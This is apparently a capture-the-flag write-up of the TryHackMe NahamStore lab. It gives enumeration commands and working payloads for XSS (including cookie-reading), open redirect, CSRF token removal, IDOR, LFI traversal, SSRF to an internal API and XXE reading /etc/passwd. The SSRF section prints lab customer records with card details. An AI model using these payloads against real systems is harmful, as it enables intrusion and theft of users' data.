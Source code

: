 # 77 - NahamStore

Room Link --> [https://tryhackme.com/room/nahamstore](https://tryhackme.com/room/nahamstore)

When enumerating subdomains you should perform it against the `nahamstore.thm`  domain.

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.176.114 -p- -T4 -sV

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack
80/tcp   open  http    syn-ack nginx 1.14.0 (Ubuntu)
8000/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
```
{% endcode %}

### Sub-Domain Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm" -fw 125

www
shop
marketing
stock
```
{% endcode %}

#### Gobuster dir enum (port 80)

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak -b 404,403

/search
/login
/register
/uploads
/staff
/css
/js
/returns
/logout
/basket
```
{% endcode %}

`stock.nahamstore.thm` .

THere is an endpoint here `/product` .

<figure><img src=".gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

`marketing.nahamstore.thm` .

<figure><img src=".gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

## Task 4 - XSS

{% code overflow="wrap" lineNumbers="true" %}
```bash
# dir enum for marketing.nahamstore.thm
gobuster dir -u http://marketing.nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak,zip -b 404,403 --no-error -t 200 -ic
```
{% endcode %}

<figure><img src=".gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

So i tried the `error` parameter and found the XSS endopoint.

[http://marketing.nahamstore.thm/?error=\<script>alert("XSS")\</script](http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert\(%22XSS%22\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

_First Let us add the product to the basket._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*vzP2Ek1DLPk427nvzVP_9w.png" alt="" height="272" width="700"><figcaption><p><em><strong>Click the add to basket</strong></em></p></figcaption></figure>

_Now click the **item**:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*o-mk-PruWW-Lp3cmyx8vzg.png" alt="" height="264" width="700"><figcaption><p><em><strong>Click the item</strong></em></p></figcaption></figure>

_On the item page if you did not add any address add it by clicking the **green color button**. As I have added an address so I am directly clicking the **blue button**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*0ER9c5egRjrc9W5cCfvc0g.png" alt="" height="269" width="700"><figcaption><p><em><strong>The item page</strong></em></p></figcaption></figure>

_After clicking the blue button. I have gone to the **/basket** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*_op1_okBPbqb8CmwizhhsQ.png" alt="" height="303" width="700"><figcaption><p><em><strong>The basket page</strong></em></p></figcaption></figure>

Add credit card details and make payment: `1234123412341234` .

We can see our `User-Agent` info there.

<figure><img src=".gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

Putting an XSS payload in the `User-Agent` field works.

Use burpsuite to intercept the request, then change the "User-Agent" field to an XSS payload.

<figure><img src=".gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

And it worked.

<figure><img src=".gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape <a href="#html-tag-escape" id="html-tag-escape"></a>

_Let us enter a product. I have chosen the second one. I have add it to the **basket** and then went to the item page. After that, I clicked on the item and came to the below page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XoMEByX85TSjBvEXz7Rouw.png" alt="" height="307" width="700"><figcaption></figcaption></figure>

_We see the URL: **http://nahamstore.thm/product?id=1\&name=Hoodie+++Tee**_

_Now let's try to change the data of the **name** parameter and put a random string. I have written name=abc. Command: **http://nahamstore.thm/product?id=1\&name=dking**_

<figure><img src=".gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

_Here we can see that we have changed the data of the **name** parameter but **nothing change occurs on the page**. So let us visit the **view page source**._

<figure><img src=".gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>

We can escape from the `<title>` tag and run our payload. Intercept with burpsuite.

`http://nahamstore.thm/product?id=1&name=</title><script>alert("HTML Escape")</script>` .

<figure><img src=".gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

### JS Variable Escape

In the main page, search for a product "love"

<figure><img src=".gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

We can see the search term `love` appeared in a Javascript script. We can escape the `search` variable and get XSS using this payload.

`love';alert("JS Escape"); //` .

And we got XSS

<figure><img src=".gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

### Hidden Parameter

Hidden parameter in Homepage is `q` .

<figure><img src=".gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape

In the `return` page there is a `<textarea>` tag that we can escape to get XSS.

<figure><img src=".gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Using this payload we get another XSS

`Large size </textarea><script>alert("RETURN Escape")</script>` .

<figure><img src=".gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

### Non-existing Endpoint

_Let us visit any URL which is not on the website. For example **http://nahamstore.thm/product**_

_The **URL** redirected us to the below page._

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Doing this gives us XSS

[http://nahamstore.thm/\<script>alert(123)\</script](http://nahamstore.thm/%3Cscript%3Ealert\(123\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



### Hidden Param

_Visit one of the product pages:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*P3k4xVczxY4o5AYDtG5Nvg.png" alt="" height="309" width="700"><figcaption><p><strong>The page</strong></p></figcaption></figure>

_Just write something in the **discount** box and press the **Add to Basket** button._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*EZs1FwNsYR__3hj2i8x2lw.png" alt="" height="192" width="700"><figcaption><p><strong>After writing in the discount box</strong></p></figcaption></figure>

_See that you cannot see anything in the **discount** box whatever you wrote._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*c5GQg_xz36KXcYkqPVFYyg.png" alt="" height="287" width="700"><figcaption><p><strong>Nothing is shown</strong></p></figcaption></figure>

_Let us go to the **page source** and see nothing is written in the **value**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*9I19LB4msMUTOeIrJWkRFg.png" alt="" height="289" width="700"><figcaption><p><strong>The view source</strong></p></figcaption></figure>

_Nothing is written in the **value** parameter._

_Let us make a little bit of a change in the URL. let us make the **discount** variable **GET** method instead of the **POST** method. Command: **http://nahamstore.thm/product?id=1\&added=1\&discount=12345**_

_After the change see that the web page is showing the input of the **discount** you gave._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*8cYl51h30nXYYiGgeF6fLg.png" alt="" height="284" width="700"><figcaption><p><strong>The discount value is showing</strong></p></figcaption></figure>

_Let us go to the **page source** and see the value written in the **value parameter** of the **discount** box._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*ycAz2e1cD7uq3fQOd1hYkw.png" alt="" height="284" width="700"><figcaption><p><strong>The design code</strong></p></figcaption></figure>

_Now run the payload and let us make some changes in the design. Command : **http://nahamstore.thm/product?id=1\&added=1\&discount=12345" onmouseover=alert(document.cookie);//”**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*DAyBY7JVZ3eSHV3AMosaeQ.png" alt="" height="191" width="700"><figcaption><p><strong>The payload works</strong></p></figcaption></figure>

## Open Redirect

[https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters](https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)

### Parameter 1

Fuzzing using ffuf:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/?FUZZ=http://10.18.88.214' -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fs 4254

r
```
{% endcode %}

[http://nahamstore.thm/?r=http://10.18.88.214](http://nahamstore.thm/?r=http://10.18.88.214)

[http://nahamstore.thm/?r=https://google.com](http://nahamstore.thm/?r=https://google.com)

We get redirected to my local web server. Workw with "google.com" too.

### Parameter 2

_Let us recon on the URL: **http://nahamstore.thm/account/**_

_Command: **dirsearch -u http://nahamstore.thm/account/ -w /usr/share/wordlists/dirBuster\_list/directory-list-2.3-medium.txt**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3WAfeVXR6Tq0wF3DdYILyA.png" alt="" height="217" width="700"><figcaption><p><strong>The recon</strong></p></figcaption></figure>

_This recon redirects us to and URL: **/login?redirect\_url=**_

_Let us visit the URL: **http://nahamstore.thm/login?redirect\_url=**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*m_cs_qHSgIdoVsig82nTLg.png" alt="" height="308" width="700"><figcaption><p><strong>The login page</strong></p></figcaption></figure>

_Now let us log in to the account of our own. But before that let us do this to the URL: **http://nahamstore.thm/login?redirect\_url=https://google.com** and then press the **login** with providing **email and password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*qYqb2I2OVugL2vmhCEAMNg.png" alt="" height="306" width="700"><figcaption><p><strong>On the login page</strong></p></figcaption></figure>

_Let us log in. During login, it **redirected** me to the **Google website**. :_

<figure><img src="https://miro.medium.com/v2/1*0o8ncwhSLSyF06_PXV3Mzw.png" alt="" width="700"><figcaption><p><strong>The redirected website</strong></p></figcaption></figure>

Answer is --> `redirect_url` .

## CSRF

_Let us go to **Accounts->Settings.**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*zrtnNj4I2fasbOVgIyKOgA.png" alt="" height="275" width="700"><figcaption><p><strong>The setting page.</strong></p></figcaption></figure>

_Let us start **intercept on** the button of the **burp suite**._

_Now, let us visit the **Change Email** option and catch its traffic._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*IUvKIAt4pYPdmzilVjt61Q.png" alt="" height="306" width="700"><figcaption><p><strong>The traffic of change email.</strong></p></figcaption></figure>

_Let us forward the **traffic** and see where it goes. It took us to the **/settings/email** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Q0EVPlABf8YTBuagPxYiKA.png" alt="" height="302" width="700"><figcaption><p><strong>The setting page</strong></p></figcaption></figure>

_Now click the **Change Email** and catch its traffic in the **burp suite**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3epWpO6152U3MhO0hgHjYA.png" alt="" height="311" width="700"><figcaption><p><strong>The traffic of the /settings/email</strong></p></figcaption></figure>

_So this page is not the answer._

_Let us visit the second option **Change Password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*YQvUECp7up4ZBgYDDq4Xdg.png" alt="" height="285" width="700"><figcaption><p><strong>The /settings/password page</strong></p></figcaption></figure>

_Let us click the **Change Password** option and catch its traffic in the **burp suite** and see it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XJOIEWDHr3c_2hDPuLVahg.png" alt="" height="313" width="700"><figcaption><p><strong>There is no csrf token</strong></p></figcaption></figure>

_So this URL is the answer._ [_http://nahamstore.thm/account/settings/password_](http://nahamstore.thm/account/settings/password)

_**What field can be removed to defeat the CSRF protection**_

On the [email change page](http://nahamstore.thm/account/settings/email) there is a CSRF protection (hidden input field with an anti-CSRF token).

```html
<form method="post">
    <input type="hidden" name="csrf_protect" value="eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpNeE1EUXdNREkySW4wPSIsInNpZ25hdHVyZSI6IjQyZWY1OWJlNTM2YTcxOTU5ZDQ0OGJmODc1N2Q1NDZhIn0=">
    <div><label>Email:</label></div>
    <div><input class="form-control" name="change_email" value="noraj@noraj.fr" ></div>
    <div style="margin-top:7px">
        <input type="submit" class="btn btn-success pull-right" value="Change Email"></div>
</form>
```

<figure><img src=".gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

Providing a wrong value will fail but removing the parameter will bypass the protection.

_Answer: **csrf\_protect**_

<figure><img src=".gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

It is encoded in `base64` .

## IDOR

_First, let us add something to the **Shopping basket** And then **add an address**._

On Burp Intercept, then click on the Address you just added.

<figure><img src=".gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

So just edit the `address_id` parameter to any number and you dump address details of other users.

<figure><img src=".gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

To exploit the second IDOR, you need to:

1. place and complete an order
2. go to the order page and select it
3. click on the `PDF Receipt` button

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*VXiMooDsTUYjUu2XoGf2zw.png" alt="" height="307" width="700"><figcaption><p><strong>The /account/orders/9 page</strong></p></figcaption></figure>

_Now let us on the **burp suite** and on the button **intercept on**._

_Now let us press the button **PDF Recept** and catch the **live traffic** of the page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xW-tgXPo-7q2Li82JlZAmA.png" alt="" height="308" width="700"><figcaption><p><strong>The order receipt traffic</strong></p></figcaption></figure>

_Now let us change the **id** parameter to **3** and **forward** it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xJPXIynUouRYKf9rRlOmaA.png" alt="" height="316" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_Here we see that the **order id** does not match the **user\_id.** So let us add the **user\_id** parameter in the traffic. Command: **what=order\&id=3\&user\_id=3**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*oXCjDf24AHjx5680Inq4EQ.png" alt="" height="312" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_It did not work. So let us use some other techniques. Command: **what=order\&id=3%26user\_id=3**_

The idea was to URL encode it `&` sign so that `3&user_id=3` becomes the value of `id`.

<figure><img src=".gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

Answer --> Order Date: `22/02/2021 11:42:13` .

## LFI

Add an item to the basket.

Turn on burpsuite intruder, then Clilck the item:

<figure><img src=".gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

_Now let us click the **forward** button_.

_When the bellow request will be shown send it to the **repeater**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*UtVnskI6x3hwKI5YX1nTCg.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

`/....//....//....//....//....//lfi/flag.txt` - This payload worked

<figure><img src=".gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>

## SSRF

There is a _Check stock_ button on the product page.

<figure><img src=".gitbook/assets/image (501).png" alt=""><figcaption></figcaption></figure>

Catch it in Burp Intercept and forward  to Repeater.

<figure><img src=".gitbook/assets/image (502).png" alt=""><figcaption></figcaption></figure>

The `server` parameter value seems to be a domain name.

But if we put another value, we have an error about the bad server name so we must keep `stock.nahamstore.thm` and still find a way to bypass it.

With `server=stock.nahamstore.thm@127.0.0.1` we have a 404 for page

<figure><img src=".gitbook/assets/image (503).png" alt=""><figcaption></figcaption></figure>

But with `server=stock.nahamstore.thm@127.0.0.1#` we are hitting the home page.

<figure><img src=".gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

Let's try to discover an internal sub-domain:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/stockcheck' -c -w /opt/SecLists/Discovery/DNS/dns-Jhaddix.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#'

internal-api
```
{% endcode %}

We found one `internal-api.nahamstore.thm`

`server=stock.nahamstore.thm@internal-api.nahamstore.thm#` .

<figure><img src=".gitbook/assets/image (505).png" alt=""><figcaption></figcaption></figure>

We found an endpoint --> `/orders` .

```
{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
```

Checking it out.

<figure><img src=".gitbook/assets/image (506).png" alt=""><figcaption></figcaption></figure>

```json
[
  {
    "id": "4dbc51716426d49f524e10d4437a5f5a",
    "endpoint": "\/orders\/4dbc51716426d49f524e10d4437a5f5a"
  },
  {
    "id": "5ae19241b4b55a360e677fdd9084c21c",
    "endpoint": "\/orders\/5ae19241b4b55a360e677fdd9084c21c"
  },
  {
    "id": "70ac2193c8049fcea7101884fd4ef58e",
    "endpoint": "\/orders\/70ac2193c8049fcea7101884fd4ef58e"
  }
]
```

We can check every order.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/4dbc51716426d49f524e10d4437a5f5a#` .

<figure><img src=".gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

We are seeing full details for other users.&#x20;

Checking 2nd order id.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#` .

<figure><img src=".gitbook/assets/image (508).png" alt=""><figcaption></figcaption></figure>

```json
{
  "id": "5ae19241b4b55a360e677fdd9084c21c",
  "customer": {
    "id": 2,
    "name": "Jimmy Jones",
    "email": "jd.jones1997@yahoo.com",
    "tel": "501-392-5473",
    "address": {
      "line_1": "3999  Clay Lick Road",
      "city": "Englewood",
      "state": "Colorado",
      "zipcode": "80112"
    },
    "items": [
      {
        "name": "Hoodie + Tee",
        "cost": "25.00"
      }
    ],
    "payment": {
      "type": "MasterCard",
      "number": "5190216301622131",
      "expires": "11\/2023",
      "CVV2": "223"
    }
  }
}
```

## XXE

_Let us visit the subdomain: **stock.nahamstore.thm**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*icpEcXSigmrC7mohvBHvEA.png" alt="" height="280" width="700"><figcaption><p><strong>The main page</strong></p></figcaption></figure>

_Let us visit the page **/product**. Command : **stock.nahamstore.thm/product**_

<figure><img src=".gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*My4ti-9W04d-cC97HlXiNQ.png" alt="" height="307" width="700"><figcaption><p><strong>In the burp repeater</strong></p></figcaption></figure>

_Let us change the request method from **GET** to **POST**._

<figure><img src=".gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

Now we FUZZ for allowed parameters on the Product, using `/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt` wordlist.

We see that the `xml` parameter returns.

<figure><img src=".gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

_Now let us copy the **XML** code from the **response** and paste it into the **request**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Bym1Dx0kFCVdaPxq51-DXQ.png" alt="" height="309" width="700"><figcaption><p><strong>After pasting</strong></p></figcaption></figure>

_Now let us **send** the request again._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*PNwIxGBYBJ_yTP6ST0aSEA.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

_**X-Token** is not present._

The error suggest we did not provide `X-Token` even if we have the HTTP header present. It means in XML mode the HTTP header is ignored and must be expecting a XML value.

{% code overflow="wrap" %}
```xml
// Some code# send this as request
<?xml version="1.0"?>
	<data>
	<X-Token>
d31ng
</X-Token>
	</data>l
```
{% endcode %}

Outputs

<figure><img src=".gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Since the value we provided is reflected, the first thing that come to mind is to perform an XXE attack.

We can read the /etc/passwd file with this payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

<figure><img src=".gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

Readin the 1st flag with:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```































